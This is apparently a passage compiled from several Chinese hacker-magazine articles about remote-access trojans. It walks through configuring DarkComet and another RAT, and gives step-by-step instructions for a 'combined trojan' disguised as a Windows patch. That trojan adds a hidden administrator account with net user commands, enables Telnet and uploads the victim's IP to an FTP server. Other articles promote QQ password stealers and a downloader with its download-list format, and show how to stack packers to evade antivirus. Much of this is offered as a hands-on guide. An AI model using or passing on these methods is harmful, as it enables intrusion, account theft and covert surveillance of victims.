现在点击窗口列表中的“Remote Scripting”，通过它可以在远程系统执行大量的脚本代码，其中可以让用户编写HTML、批处理和VBS三种不同的代码。用户只需要在右侧窗口选择要编写代码的标签，接着在标签窗口里面写入相关的代码信息后，点击按钮就可以在远程系统里面进行执行操作。

### 2. 系统控制

现在点击窗口列表中的“System Functions”，在右侧窗口会出现五个非常常见的控制命令，分别是Process Manager、Remote Registry、Windows List、Uninstall Applications和System Privileges。首先在Process Manager标签中点击鼠标右键，选择菜单中的List Process和List Selected Modules命令，这样就可以显示出系统中最新的进程信息。而且木马会使用不同的颜色，来对不同的进程信息进行标注。选择不需要的系统进程后，点击Kill Process命令就可以结束它（如图10）。

接着选择窗口中的“Remote Registry”标签，通过它可以对远程系统的注册表进行管理。不但可以创建新的项目和键值，而且可以修改和删除已经有的键值。再点击窗口中的“Windows List”标签，通过它可以查看远程系统中的窗口情况，而且包括那些被隐藏的窗口信息内容。通过右键菜单中的命令，不但可以进行窗口的最大化、最小化、隐藏等操作，还可以进行发送文字信息到窗口、窗口名称重命名等操作（如图11）。

图10

图11

## 3. 启动管理

接着点击窗口列表中的“Remote MSConfig”，在右侧窗口里面可以对系统的服务和启动项进行管理。点击右侧窗口中的“Services Startup”标签，在列表中点击鼠标右键中的“List Services”命令，用户就可以获得远程系统中最新的服务信息。通过右键菜单中的其他命令可以对这些服务项进行开始、停止、暂停等操作（如图12）。如果要创建一个全新的系统服务，需要在弹出的窗口分别输入服务名称、文件路径等信息。

图12

现在点击窗口中的“Registry Startup”标签，在列表中点击鼠标右键中的“Refresh Startup”命令，用户就可以获得远程系统中最新的启动信息。同样通过右键菜单中的命令，可以删除已有的启动项信息，也可以创建全新的启动项信息。

## 4. 文件管理

现在点击窗口列表中的“Files Functions”，在弹出的窗口就可以对远程系统的文件进行管理。DarkCometRAT 的文件管理采用了 TC 的双窗口文件管理方式，这样文件管理操作起来就更加方便易行。管理器左侧是本地计算机目录，而右侧是远程计算机目录，用户通过双击就可以进入磁盘里面。通过窗口两侧的按钮和右键菜单中的命令，就可以完成对磁盘文件进行管理操作（如图13）。任意选择几个文件或文件夹，然后点击右键菜单中的下载命令，在“Downloads”标签中就可以看到文件的传输进度。

图13

DarkCometRAT 的文件下载速度也是非常的快速，并且在下载的过程中可以任意地进行暂停，需要的时候再重新进行文件的继续传输。除此以外，木马还可以进行复制、粘贴、删除等命令，还可以设置文件的属性信息和运行方式等。如果用户选择的是图片文件的话，点击右键菜单中的“Get thumbnail”命令，这样在窗口的“Thumbnails”标签中就可以看到图片的预览信息（如图14）。另外通过右键菜单中的“shortcut selected to desktop”命令，可以将指定的图片设置成为系统的桌面壁纸。

图14

## 5. 远程监控

接下来点击窗口列表中的“Spy Functions”，通过其中的四项子命令可以分别对远程摄像头、音频系统、远程桌面和键盘输入进行监控。通过“Webcam Capture”命令，可以通过远程系统中的摄像头对图形进行捕捉。用户首先需要在设备列表中选择要监控的设备，接着点击窗口中的“Start Capture”命令，就可以对远程的图像内容进行捕捉操作。而且用户还可以将捕捉的内容保存到硬盘里面。通过“Sound Capture”命令还可以对远程计算机的音频进行捕捉，点击“Start Capture”按钮就可以开始捕捉，而点击“REC”按钮就可以将捕捉的内容保存下来（如图15）。

图15

接下来点击“Remote Desktop”命令，我们就可以对远程系统的桌面进行查看，点击“Start Remote Capture”命令就可以开始捕捉屏幕……而“Keylogger”命令就是木马常见的键盘记录器，用它我们就可以获得远程用户的键盘记录情况。

点击“Print this text”按钮就可以通过远程打印机进行打印。如果选择了窗口中的“Clipboard”标签，在列表中点击右键菜单中的“Refresh Clipboard”命令，就可以获得远程系统最新的剪贴板信息……甚至直接清除远程系统剪贴板中的内容。

图16

图17

## 6. 其他功能

除了上面介绍的这些功能以外，DarkCometRAT 还包括其他的木马很少涉及的一些远程控制功能……最后点击“Scan IP”按钮就可以利用肉鸡进行扫描呢（如图17）。

接下来继续点击窗口列表中的“Misc Functions”，通过它可以对远程的打印机和剪贴板进行操作。首先点击右侧窗口中的“Print Manager”标签，在窗口里面输入需要打印的文本信息后，点击“Print this text”按钮即可。

图18

#### 三、总结

到此为止，DarkCometRAT 木马的主要功能就介绍完了。通过测试我们可以看到，该木马不但包括了一些常见的功能，而且其中还包括了很多以前不曾见到的功能……我们就有了一种全新的选择。

> （文章中所涉及到的 DarkCometRAT 木马已收录在本期光盘中）

## 远控只为开放  
吊放隔日“自由远程管理”

每个上网的朋友们都需要一款易上手而且耐用的远程控制软件，这样子我们可以在简单操作的同时省时又省力……单看这款软件的名字就会让我们对它产生亲切的感觉——“自由远程管理系统”。

“管理系统”的远控软件，在功能上和实用价值上又会给我们带来哪些意外呢！让我们随着文章来对它逐步了解吧！

#### 一、初用软件

软件的官方是这样描述“自由远程管理系统”的：自由远程管理系统是一个操作简单、方便易用的远程管理、远程协助工具。它采用了反向的连接方式，并且所有数据压缩传输，从而加快传输的速度。在控制端采用完成端口模型，支持大量连接，方便管理大型网络。被控制端安装后仅有一个 EXE 文件，不产生其他垃圾文件，占用极少的系统资源。根据被控端系统情况，可以选择是否启用通过防火墙选项，以其他程序执行被控端功能。

图1

这款软件具有丰富多样的功能操作，几乎全部分布于右键菜单中，大多数操作都可以一步到位。如果将被控端安装于本机，更可以帮助您对本机系统进行设置，很多方面的操作比使用系统程序更简单。

#### 二、配置木马

### 1. 配置服务端

首先我们来配置一个服务端程序，打开“自由远程管理系统”软件，软件的界面（如图1）所示。单击“配置被控端”，在弹出的窗口中会先看到关于配置“连接选项”的配置条件，在这里我们可以选择域名/固定IP上线和网页文件上线。这里为了方便给大家测试，我选择第一种“域名/固定IP上线”方式，填写好我们的连接密码和端口号，就可以来到“安装选项”的参数窗口了。在这里我们可以修改“安装文件名、安装服务名、服务显示名、服务描述、被控端描述”等，这些我们可以自由发挥去填写，并没有固定的要求。之后勾选上“安装后自删除”复选框即可。程序还为我们提供了“通过防火墙选项”这个操作区，我们可以在“以其他进程启动被控端”选项中，选择默认的“使用IE进程”或者是“注入其他自定义的进程名称”。当然时下的许多木马生成器都包含有这些功能，所以在我们看来也就老酒新瓶了。不过没关系，毕竟我们本文的真正主题是给大家提供一个简单实用的木马使用简介，而不是来攀比手中木马功能上的出色。最后勾选中压缩木马选项，点击“生成”按钮，来生成最终的果实（如图2）所示。

图2

图3

### 2. 连接服务端

双击运行生成的木马，回到软件在控制端的下方勾选上“监听本地端口”，输入在配置时候大家输入的“连接密码”和“连接端口”，接着稍等几秒钟就可以看到肉鸡已经上线了（如图3）所示。

#### 三、功能介绍

### 1. 文件管理

接下来我们来看远控的第一个功能“接入管理/远程管理”。大家选中上线的肉鸡右键选择“接入管理”，当然也可以在控制端的工具栏上单击“远程管理”按钮。针对远程主机的管理，第一个功能是“文件”，也就是大家熟知的文件操作。在这里我们可以对远程主机上的文件、文件夹进行“新建、复制、删除、运行、上传和下载”，当然也可以对一系列的文件进行打包和解压。这个选项极大限度地方便了远程主机和本地机器之间的文件传输，节省了时间和提高了效率（如图4）所示。在传输时候程序为了使用者的方便和上传速度，还支持“普通上传”和“断点续传”。如果叉子们使用断点续传，只需要勾选上“断点续传”前边的复选框即可。

图4

### 2. 远程终端

第二个功能“cmd”也就是大家经常见到的远程终端，在这里我们可以执行各种系统命令。使用者只要输入相关的系统命令就可以对系统进行简单的操作。使用时要先勾选“启动”的复选框，之后输入简单的系统命令来执行。这里我执行的是“net user”命令，最后单击“发送”执行（如图5）所示。

### 3. 进程管理

第三个功能是“进程管理”。这款软件并没有同类软件一样提供详细的 pid、线程数、优先级、进程路径等，而是只有简单的“刷新和终止”功能。其实说得严重些，对于一般用户，尤其是像我们这些刚入门的小菜，繁琐的操作反而会给我们造成一定的困难，功能多了反而会画蛇添足。右键选中“刷新”功能来不断刷新当前的进程信息，当然我们可以选定某个进程来终止（如图6）。

### 4. 窗口管理

在“窗口管理”功能下，我们可以获取远程主机的窗口信息，对窗口进行“显示/隐藏/关闭、改变标题、禁用窗口、恢复窗口、最小化、最大化”等操作（如图7）。

### 5. 注册表与服务

注册表功能下可以对远程电脑的注册表进行同步的编辑，例如建立新项等。下面一个功能就是“服务驱动”。在以往的远程控制软件中出现最多的就是“服务管理”这个名词，而在这款远控中却出现了“驱动管理”。我们单击这个功能进去（如图8）所示。程序罗列了“服务名、服务显示名、服务描述、文件路径、登录身份、服务状态”几个常用的功能。同样单击右键可以对该项进行启动/停止服务、安装/删除服务，还有更改启动状态为手动、禁止和自动。如果需要显示驱动的话，我们勾选上“显示驱动”的复选框就可以了。

### 6. 网络服务

在网络服务中为我们提供了对远程桌面开启指定的端口、HTTP代理、SOCKS5代理、HTTP服务等选项。虽然有些功能都可以利用 cmd 来完成，但是在这里作者还是为我们单独地罗列了出来，这又对我们使用这款软件降低了一定的难度。例如开启和关闭3389端口，只需要一个简单的单击就可以解决；还例如代理、开启 Telnet 服务（如图9）。

### 7. 屏幕监控

“屏幕”和“视频”功能也就是所谓的屏幕查看和视频查看。在“屏幕查看”中，可以查看远程主机桌面，可以根据网络带宽自定义色彩，使用浮动窗口查看，保存查看到的图片，并可以进行键盘和鼠标控制，图片质量为16位真彩色。不过经过实验，本软件的远程桌面查看到的桌面并不是很清晰，这是需要作者改进的一个地方（如图10）。“视频监控”需要在被控制端有视频设备的前提下，查看远程主机视频画面，可以自由调节视频图片色彩质量和分辨率。

### 8. IE管理

“IE管理”选项中，帮助我们在不需要视频查看和编辑注册表的情况下，更改IE设置，比如解除主页锁定、清理右键菜单、卸载多余插件、远程进行反IE劫持（如图11）。

### 9. 交谈功能

细心的朋友可以看到工具栏中的“交谈”功能，如果我们启用了这个功能，那么在被控端就会弹出一个类似QQ的对话框，这样子被控端和控制端就可以进行交谈，效果（如图12）。当大家想要终止交谈时，点击“停止”按钮即可。

### 10. 其他功能

“系统”选项中给小菜们提供了一些基本的功能按键，分为“系统设置”“快捷打开”两个模块。在“系统设置”中可以快捷操作打开远程电脑光驱、关闭光驱、关闭455端口、打开455端口、解锁任务管理器等常用功能；而在“快捷打开”中则提供了12个常用的快捷方式，譬如任务管理器、控制面板、网络连接、用户账户等（如图13）。程序和其他远控一样，拥有丰富的命令广播内容，使得我们可以对肉鸡进行批量下载运行、批量执行CMD命令、批量被控端设置和系统设置命令等诸多功能，大家可以根据自己的需求自由组合使用（如图14）。

#### 四、简单小结

正如文章上文所言，很多方面的操作比使用系统程序更简单。我想大家经过上文的讲解也感受到了，因为作者为我们提供了太多的便捷，所以有时候会比操作本地系统还要方便。好了话不多说，眼过千遍不如手过一遍，剩下的就留给叉子们自己去实践体会了。

> （本文所涉及的自由远程管理系统已收录在本期光盘中）

### 全新理念——组合式木马进阶与实践

轩辕流云

近些年来木马免杀越来越难，如果没有太深的技术功底，似乎只有花加了再加，壳套来套去，特征码改了又改。不但费时费力，且多数情况是过不了三天便被杀软揪了出来。若是遇到安全意识高，习惯把文件发到网上在线扫描一遍才打开的人，那就更是无奈加无语了。

前些日子看到网上提到了“组合式木马”这个概念，钻研一番后似有所得，现与大家分享。

#### 一、基本理念

何谓组合式木马？就是用一些常用的小软件或 Windows 自带的小工具设计（或组合）成木马程式。

#### 二、特性

这类木马程式大致有以下几种特征：

- 设计简单，方便快捷，不需要太多的专业知识。对于富有创意和想象力的黑客更是可以制造出多种不同功能的木马。
- 由于相貌大众化（由常用软件及 Windows 自带的小工具组成），所以进城后不必担心被城管（杀软）影响市容而拉去砍头。就算是某位城管品味特殊，由于是模块化的，整起容来也相当容易。
- 由于轻功太差，所以进出城时可能被看大门的（防火墙）挡住。不过我们要进的不是什么特大城市，警惕性不高，一般情况下只要城管没意见，城主（也就是电脑使用者）就会放行。而且有的小城连看大门的都没有，所以轻功差并不会给我们带来太大的困扰。
- 讲义气，自己进城后不忘接应其他兄弟（其他木马或黑客工具）进城并肩作战。而且因为有良民证，可以帮忙干一些其他榜上有名的兄弟不方便做的事。

以上便是组合式木马的几个特点，相信大家应该很感兴趣，下面我们便来探讨其具体组成。

#### 三、基本架构

主要由安装生成工具和数个小工具构成，现在的安装生成工具主要可分为三类：

- 简易型：顾名思义，就是很简单的那种，如 Wise Installation System、EasySetup 等，但过于简易，功能不多，很难用来设计组合式木马。
- 适中型：比简易型功能多，使用起来也不是太难，如 SetupFactory、Ghost Installer 等，比较实用。
- 强大型：功能很强大，如 Install Shield，但使用时要用到 Install Script，学习难度不小于 C 语言，通常不建议初学者尝试。

另外还有一种 Windows 提供的 Windows Installer，设计出来的程式扩展名为 .msi 而不是 .exe。广大城主同志对 msi 家族的程式没什么戒心，所以可行性极高，但学习难度丝毫不亚于 Install Shield，建议有恒心有毅力的蓝雕们去学习一下。

至于要用到的小工具须根据实际情况选择，有很强的针对性，大家可以自行研究一下。

#### 四、应用实例

组合式木马如何开启 Telnet 服务，我们这里要用到的程式有 SetupFactory、ftp.exe 与 tlntsvr.exe（后两个文件需上传到支持 HTTP 下载及 FTP 上传的网络空间中）。

木马需要的功能有：开机自动运行、判断 Telnet 打开与启动情况、启动与打开 Telnet 服务、创建最高权限账户、判断 Internet 连接情况、获取目标电脑 IP 地址与上传。只有完整具有以上功能的木马才能高效率地完成任务。以下是设计流程。（为节约篇幅，所提供文件已基本配置完成，下面只是解说）

### 1. 设置自动运行

打开 SetupFactory 并载入配置好的文件 Telnet.sf6，在主界面点击“Actions”，在弹出的窗口中设置自动运行（本文件将启动项设在了注册表中）（如图1）。

### 2. 设置第一次运行工作——复制木马到系统目录，判断 Telnet 打开与启动方式

首先判断是否第一次运行，若是则将木马文件放入 system32 目录下。然后判断需以何种方式打开 Telnet 服务，最后将结果保存为 telnet.ini 中的 mode 参数值。如果目标机不存在 tlntsvr.exe 则需从网上下载（如图2）。

需双击图3中的选中项，在弹出窗口中键入上传的 tlntsvr.exe 文件完整地址、存放的网络空间端口及账号密码（如图3）。

### 3. 启动与打开 Telnet 服务

由于 Telnet 服务有可能会被卸载或禁用，所以设计为每次运行都会自动开启 Telnet 服务。读取 telnet.ini 文件中的 mode 参数值，并采取参数值对应的操作（如图4、5、6）。

### 4. 创建最高权限账户

由于不知道目标电脑的用户名密码，所以便自己设一个（与本地用户名密码相同，用以绕过验证）。先双击图7中标为1的选项，在弹出的窗口中键入【net user username password /add】；再双击图7中标为2的选项，在弹出的窗口中键入【net localgroup administrators username /add】（username处键入本地用户名，password处键入本地密码）（如图7）。

```bash
net user username password /add
net localgroup administrators username /add
```

### 5. 检查是否连接到 Internet

查看目标电脑是否接入 Internet，若是则继续，否则便以 at 命令设为1小时后再运行并结束程式（如图8）。

### 6. 获取目标电脑 IP 并上传

获取目标电脑当前上网 IP 地址，然后上传到黑客的网络空间中。

## 骏马记

图8

然而，还是有一定作用的，不然会显得太假。若想让木马无声无息地运行，就需要以下步骤：

- 在主界面单击“General Design”键，在弹出的窗口中单击“Settings”选项卡，并在“Run setup in silent mode”选项前打勾。
- 在主界面单击“Screens”键，在弹出的窗口中删除其中的内容。

在主界面按 F6，在弹出的窗口中可以设置生成位置及文件名。默认情况是在 C 盘根目录创建 winpatch.exe 文件。在主界面按 F7，待弹出窗口中提示“Build successful”后单击“Close”即生成完毕。

图7

图9

- 双击图9中标为1的选项，在弹出窗口的相应位置键入 FTP 用户名、密码。
- 双击图9中标为2的选项，在弹出的窗口中将“ftp.xxx.com”替换为自己的 FTP 服务器名或 IP 地址。
- 若是目标电脑中不存在 ftp.exe 文件，则需要下载一个。双击图9中标为3的选项，在弹出的窗口中键入 ftp.exe 存放的详细地址、FTP 空间端口、账号密码。然后程序会跳转到上一步再次发送（如图9）。

## 7. 收尾

本文提供的 telnet.sf6 是伪装的 Windows 漏洞修复工具（当

## 8. 善后工作

改个图标或捆绑在别的文件上，起个诱人的名字什么的，自己看着办就是了。目标电脑中木马运行（和每次启动时）即会开启 Telnet 服务，按照设定好的用户名和密码创建一个超级管理员，并把 IP 地址上传到你的 FTP 空间，然后怎么做就不用我教了吧。

#### 五、结语

组合式木马算一个新概念，这种木马隐藏性好，制作简易，危害性大，请诸位莫要滥用。

> （文章中所涉及的相关软件已收录在本期光盘中）

## 战斧版QQ盗密码与修正终测

无意中笔者在网上接触到了一款新的 QQ 盗号软件，叫“战争贩子QQ大盗”。这款软件无论在主界面还是在配置形式上来看，感觉与普通的钩子记录型盗号木马没有太大区别，但是运行服务端之后，笔者发现这是一款方法新颖的密码盗取程序：替换 QQ.EXE 为一仿真 QQ 登录界面（本软件中为 QO.EXE），用户运行伪造登录框后输入登录资料，木马程序便可获知账号密码，达到盗号的目的（如图1）。

图1

本软件客户端配置方法与其他 ASP 收信盗号的 QQ 木马方法大体相同，在这里笔者就不一一阐述了。

下面笔者开始分析本程序的工作原理。这款软件由生成器、服务端模板 serve.dat、压缩工具 ASPACK 还有后台收信文件组成，小马大小 447KB，图标为一图片图标，伪装性较强。运行小马后，小马会自删除并且出现一张美女图片（实话说这张真不是美女），此时会有少许延迟，笔者认为本软件此时访问了网络，然后 QQ 掉线，重新登录发现 QQ 主程序已经被替换掉了（如图2）。

图2

在封包截取（WPE）方面笔者验证了刚才的想法。程序运行时确实访问过网络，经过分析发现小马运行后访问过一个图片链接，而该链接即为那张美女图片链接（笔者此时疑问，如果作者替换了服务器上的图片文件，改为一个后门的话，会有什么结果呀？）。然后笔者利用自己配置的木马进行测试收信的时候，WPE 再次截取到未加密的收信数据（图3、4）。这样经过 IP 与域名的转换，在链接上数据中分析获得收信文件的地址，很轻易地就能破解出木马的收信箱子。本例中目的 IP 为……&*…………*，我们前往 www.ip138.com 进行 IP 域名转换后获取了该 IP 对应的域名 www，然后通过默认收信地址 login.asp 就能猜出收信地址为 www./login.asp。

另外，笔者使用 FILEMON 工具对硬盘文件改动进行分析，发现产生了若干新文件：war.exe、killprocess.dll、script.vbs、l.jpg、QQ.exe。进一步分析文件大小及其性质可以看出，小马运行后产生一个副本到 war.exe（war.exe 和生成的木马 MD5 值完全一样，并未做任何修改），并且释放出一个 dll 文件和一个脚本文件到 system32 文件夹中，此时结束自己并自删除，之后运行副本文件，替换原 QQ。下面笔者就对关键的几个文件进行分析。

图3

图4

#### 一、Script.vbs

笔者最先注意到的是 system32 下的 script.vbs 文件。由于该文件为 VB 脚本，所以可以用记事本打开分析。打开后发现，这是一个 QQ 自动登录器。代码中作者首先将获得的 QQ 路径替换 1234567890123 这段字符串，QQ 号替换 11111111 这段字符串，而密码则替换 10000000000 这段字符串，剩下的就是模拟 TAB 键控制光标位置了，确实是一种巧妙的自动登录方法，但是缺点是没做到隐藏登录，这点是个遗憾。

#### 二、Killprocess.dll（杀进程）

紧接着，笔者使用 ViewDependencies（这是一款 DLL 函数、地址查看器）打开了 killprocess.dll 文件，发现该文件由两个函数组成：1. QQDIR，2. KILLTASK。翻译过来就是 QQ 路径和结束进程，调用 QQDIR 获取 QQ 所在路径，用 KILLTASK 函数来结束 QQ 程序的进程（如图5）。

图5

#### 三、图标资源

比较可笑的是，笔者注意到了木马的图标有点异常。打开图标获取软件 ICONGETER，对图标进行了提取后发现，图标上面多了3个微小的红点。对此现象大多数人表示不解，笔者在这里做了一个实验：由于本程序是由 DELPHI 编写，作者提取了图片文件的图标，用 DELPHI 做了一个空文件，并且生成了 EXE 文件，此时右下角的 360 安全卫士马上就提示发现病毒。原来是作者为了免杀修改了图标资源混过关的。（在这里笔者深有感触，笔者平时是很支持 360 的，但是如果单单修改一个图标资源就可以免杀的话，那么 360 还有很多需要改进的地方啊。）

#### 四、小结

至此，笔者结束了对本软件的分析。通过本次分析，笔者发现了这款软件的诸多不足之处，笔者希望读者能够靠自己的能力发现程序中的不足，从而防范 QQ 被盗，保障自己的财产安全。重要的是，千万不要被所谓的木马“偷天换日”。

### 伊波拉病毒——下载！下载！

最近忙着学 Delphi，一时头晕。于是乎，我就在网上闲逛起来。无意中看到一款名为“伊波拉病毒”的程序，这名字挺新奇的，正好让空虚的哥解解乏。

于是，我运行了这程序。界面做得太牛 X 了！这么猥琐的程序原来是一款“下载者”（如图1）。这界面看起来应该是 VB 编写的，大致和常见的一些下载者没什么两样。空欢喜一场，既然运行了，我就看看这下载者有什么独一无二的地方。

为了方便大家理解，我先来介绍一下什么是下载者。下载者（Downloader）是一类计算机病毒程序，按照国际上的病毒命名惯例为“Trojan-Downloader”一类。这类木马程序的主要内容为：指引中毒用户的计算机到黑客指定的 URL 地址去下载更多的病毒文件或者木马后门文件并运行，使得黑客获得更大操作权限，为黑客后门技术奠定基础。通俗地说，就是自动下载病毒的程序。

一般这类病毒体大小在几百字节到几 KB 之间，比一般的木马程序要小得多，便于网络传播。网站挂马通常挂的都是下载者木马，因为下载者程序体积小，可以迅速下载执行，不卡 IE 浏览器。所以，不安装杀毒软件，一般很难发现。

近段时间出现的变种下载者，发展速度很快，集成了各种各样的功能，如：抗杀软、穿防火墙、过主动防御和云安全查杀、穿透还原卡和还原精灵、映像劫持、屏蔽反病毒网站、浏览器劫持、锁 IE 浏览器首页、弹广告等等。下面，我们就来体验下这款“伊波拉病毒”。

在“Down url”（下载地址）里填上我们所要下载文件的具体位置（如图2）。

图2

我就用它下载我的木马好了，文件的位置一定要精确，否则下载的就不知道是什么玩意儿了。然后点击按钮“make”，生成下载者的服务端。服务端直接生成在生成器的同一目录下，名为“server”（服务）的 EXE 文件（如图3）。

图3

生成的服务端大小为 39KB，这个服务端貌似太大了点。一般优秀的下载者体积都很小，几乎在 8KB 左右。接下来，我们把这个文件拉到 360 里面转几圈，结果一下就被秒了。看来这服务端已经过了免杀期，这样的话我们先来给它做个免杀。一般给服务端加 2 个壳就可以了，把这个服务端打包发送给某人或者挂到网页上去就 OK 了。它的下载列表格式为：

`Hacker=http://www.xxx.com/Hacker.exe（如图4）`

我们可以清楚地看到它的下载动作。

```text
使用方法
down url  http://www.xxx.com/down.txt
下载列表格式
[DOWN]
1=http://www.xxx.com/1.exe
2=http://www.xxx.com/2.exe
```

图4

在运行时，屏蔽大量感染下载者等恶意程序，可使这款程序运行更为流畅。这款下载者的优势就在于它在 TXT 定时下载完成后，会立即清除缓存中的下载链接地址，从而更好地保护下载地址的隐蔽性。另外，这款下载者采用了无限下载项，使用 TXT 的下载方式可以随时更换链接。一般比较专业的程序员在开发下载者时，都会给下载者添加一个自杀动作。在完成下载任务后，下载者的服务端都会采用自杀方式消除痕迹，这款下载者也采用了自杀方式。

总体来看，这款下载者还说得过去。关于这款下载者的研究，就进行到这儿。相信大家也对“下载者”这种黑产有所了解了，有兴趣的读者不妨也去实际操作一下，毕竟理论和实践还是有一定差距的。

## 永恒的传奇程序——幻魔QQ大盗

从最初的“啊拉QQ大盗”，到前几年的“金狐QQ大盗”，最后出现了“爱Q大盗”。QQ 盗号木马的开发永远没有停止。QQ 在不断升级更新的过程中，盗号木马也在不断同步更新。伴随着 QQ 木马功能的越来越强大，木马开发者也开始动起了心思……

从卖 VIP 版本，到添加后门，很多 QQ 木马逐渐成为黑色经济的交易品。就拿前不久的“爱Q大盗”来说，这款易语言开发的木马，功能确实很强大。但是在“爱Q大盗 V9.0”版本后的“爱Q大盗2010”，程序作者对使用者的身份进行了限制：非“华夏黑客联盟”的用户不得使用该程序，笔者个人认为这点不符合黑客的共享精神。

在笔者和程序的另一作者“死亡了.进制”通过共同努力后，一款全新的 QQ 木马出现了，它就是我们自主开发的“幻魔QQ大盗”。该程序使用 VB 编写，代码 647 行，原本是想留着自己使用，后来觉得私自使用不符合黑客精神所以对外公开，目前已兼容所有 QQ 版本（QQ2009—QQ2010 的所有版本）。下面我们就来体验一下这款全新的“幻魔QQ大盗”。

生成器的主界面（如图1）。我们填写好自己邮箱的地址、用户名、密码等信息，推荐使用 QQ 邮箱（邮箱需开启 POP3/IMAP/SMTP 服务后才能够正常收信，进入邮箱后选择“设置”-“账户”即可进行设置）。接下来我们点击“邮箱测试”（如图2），如果测试失败，可能是你填写的信息存在问题或者网络不稳定。

图1  
图2

测试成功后，我们即可点击“生成木马”。生成的服务端和生成器在同一目录下，程序生成出来没有文件名，只有扩展名，在系统默认勾选了“隐藏扩展名”的情况下，就只有一个图标，诱骗用户点击。大家也可以给它设置一个文件名（如图3）。

另外，我们可以使用“设置选项”的附属功能（如图4）。在日后的完善中，我们会逐渐完善更多附属功能。现在的很多木马都存在后门，本程序在编写时没有写入任何后门，请各位读者放心。

这款木马的特点在于它对 QQ 界面的劫持。为什么不用驱动编写键盘记录？在这里笔者可以很负责地告诉您：用驱动截取密码很容易被杀毒软件发现，就像 360，在加载驱动的时候就会被拦截住，传播起来很不方便。一般界面劫持木马使用“HOOK+界面劫持+伪装登录界面”的方法，在密码输入和运行 QQ 时很容易被识破（爱Q的界面就很容易被识破）。而“幻魔QQ大盗”的服务端在编写时，把重点放在了 QQ 登录界面的劫持（非全面劫持，不容易被发现）和密码截取发送。之前的“爱Q大盗V9.0”在界面劫持时会出现闪框的情况，这无疑是一个致命漏洞。而“幻魔QQ大盗”在劫持 QQ 登录界面时，没有采用伪造登录界面的方式，所以也不会出现“闪框”这一漏洞。

这款木马编写时，在反杀毒方面采用了全新的保护手段。对于进程隐藏以及开机自启动，作者的编写还是比较完善的。为了保证木马的免杀效果，对于一些敏感信息，在此就不便透露了，敬请谅解。本程序过了启发式的 NOD32、小红伞、卡巴斯基、国内主流杀软（瑞星、金山、江民）。由于作者能力有限，ASP 收信功能就没有添加，以后有机会会添加上去，若有不足之处还请各位读者指出。

我们编写这款木马的目的是希望大家能够通过实践，对 QQ 盗号有所了解，从而更好地保护自己的 QQ 安全。对于那些滥用木马、疯狂盗号的伪黑客，笔者在此表示鄙视。技术永远是用来交流、探讨的，天外有天，人外有人，希望大家都能成为人上人。

（文章中所涉及的“幻魔QQ大盗V1.0”已收录在本期光盘中）

### 复合加壳，再续免杀神话！

炫风舞（中国鹰派联盟）

免杀，一个在黑客界永不过时的话题。从木马和杀毒软件的第一次交锋开始就始终没有中断过，黑客程序开发者和杀毒软件技术人员始终在较量着。面对强大的杀毒软件，病毒的免杀就显得尤为重要。免杀的方式基本分为三种：修改特征码、添加花指令和壳。最后一次，我们就来谈谈加壳这种最常见的免杀方式。

有些动植物长着坚硬的外壳，因为它们都有着脆弱的身体，需要用坚硬外壳来保护自己。根据这一理论，一种叫“壳”的程序出现了。壳诞生的初衷是为了保护自己的程序不被破解和修改，病毒作为一种特殊程序，壳同样也可以用于病毒保护。通过这一现象，壳的用途出现了一个翻天覆地的转变。现在提到壳，大家都会想到病毒免杀。

一般来说，壳分为两种：加密壳和压缩壳。加密壳主要作用是对程序进行加密，但加密后程序体积会变大。压缩壳主要用于对程序压缩，能够减小程序体积。另外，还有一些特殊的壳既可以加密，同时也可以压缩。

加壳不失为一种不错的免杀方式，但随着杀毒软件普及和病毒库日益扩大，越来越多的加壳程序被列入病毒行列。那么我们还能使用这些壳为病毒免杀吗？YES！但我们要稍微动动手脚了。

如果说单一添加壳，用不了多久就会被杀，几乎不行的壳一下就会被主动防御和云查杀给秒了……

我们可以把一些壳混合起来为程序加壳，也就是题目提到的复合加壳，这样也可以起到免杀效果。但要注意的是：尽量选择一些不常见的加壳程序；加壳要保证一定数量，不能只加一两个壳。而且加壳后不等于 100% 免杀，还要靠我们不断分析测试才行。

我以给灰鸽子加壳为例，给大家一个复合加壳思路。需要注意的是：要加壳的文件不能是 RAR 格式，我这里使用的是没有 UPX 压缩的灰鸽子。先用加密壳给灰鸽子服务端加壳，我用到的是国外一款名为“KcyCrypter”的工具（如图1）。这个壳的免杀效果非常不错，而且功能强大。

简单介绍一下使用方法：左边是选择要加壳的文件，右边是设置输出文件位置。把下面所有选项全部选上，这些选项的意思是反编译、反沙盘等等，我们选上就可以了。然后点击“Crypt File”就为灰鸽子加上了加密壳。

图1

接下来我们用到压缩壳，我选用的是“蚂蚁加壳工具和 Mini_pack”，因为它们都是压缩壳。经过我测试，这两个壳在压缩时不需要进行资源释放处理（如图3）。勾好配置后，找到服务端后进行二次加壳。压缩完毕，用加壳后的灰鸽子过一下瑞星、卡巴和 360，都没有报毒。

图3  
图2

> 加壳是一种最常见的简单免杀方式，在加壳过程中，仍要注意以下几点：

- 壳很快就会被杀毒软件破解，有效期不会很长。
- 由于不同壳的编写方式和语言环境不一样，每种壳的效果都不一样。
- 加壳不可能对所有文件有效，遇到特殊文件时，往往会出现“无法加壳、加壳后无法运行”的状况。
- 一般来说，适合给木马加壳过杀毒软件只要 3 次加壳就够了，从第 2 个壳开始，每加一次壳都要进行资源释放处理。
- 对加壳不能过分迷信，免杀应当结合多种方式进行。

现在还不能添加压缩壳，因为每个壳的兼容性都不一样，我们必须进行资源释放处理。下面我们要使用到“FreeRes”（如图2）。释放资源后选择“功能”中的“建立可编辑资源”对文件进行资源重建。

（文章所涉及到的加壳工具已收录在光盘中）

### 闪存盘遇到李鬼

尼尔尼诺

当我把闪存盘插入电脑，看到 U 盘图标显示为文件夹图标而非可移动磁盘图标时，心中就预感不妙了。果然，将隐藏文件设置为显示状态时，发现 U 盘根目录下多出了 Autorun.inf 文件及文件夹 RECYCLER。打开 RECYCLER 文件夹，看到了一个名为 s-5-3-42-2819952290-8240758988-879315005-3665 的文件夹，双击它后就看到了 jwgkvsq.vmx 这个“毒物”。

使用 Shift+Del 组合键可以直接 Kill 掉这些病毒，可是删除病毒后的 U 盘再次插入本机时，就会发现它们依旧“阴魂不散”。这时我才知道麻烦来了，我的 Windows 操作系统中招了！

